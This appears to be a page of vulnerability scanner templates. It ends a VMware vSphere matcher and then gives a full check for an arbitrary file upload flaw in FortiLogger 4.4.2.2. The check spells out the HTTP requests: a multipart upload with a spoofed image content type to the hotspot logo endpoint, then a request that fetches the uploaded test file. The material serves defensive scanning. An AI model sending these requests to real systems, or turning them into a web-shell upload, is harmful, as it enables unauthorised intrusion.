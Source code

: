 ### Matchers

**Type - dsl**

- dsl
  1. status_code_1 == 200
  2. status_code_2 == 201
  3. contains(body_1, 'VMware vSphere')
  4. content_length_2 == 0
- condition - and

---

# FortiLogger 4.4.2.2 - Arbitrary File Upload

## Description

- FortiLogger 4.4.2.2 is affected by arbitrary file upload issues. Attackers can send a "Content-Type: image/png" header to Config/SaveUploadedHotspotLogoFile and then Assets/temp/hotspot/img/logohotspot.asp.

- severity - critical
- tags - fortilogger,fortigate,fortinet,packetstorm,cve,cve2021,fileupload,intrusive

## Requests

### Step - 1

```
POST /Config/SaveUploadedHotspotLogoFile HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySHHbUsfCoxlX1bpS
Accept: application/json
Referer: {{BaseURL}}
Connection: close
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarySHHbUsfCoxlX1bpS
Content-Disposition: form-data; name="file"; filename="poc.txt"
Content-Type: image/png

POC_TEST

------WebKitFormBoundarySHHbUsfCoxlX1bpS

```

### Step - 2

```
GET /Assets/temp/hotspot/img/logohotspot.txt HTTP/1.1
Host: {{Hostname}}

```
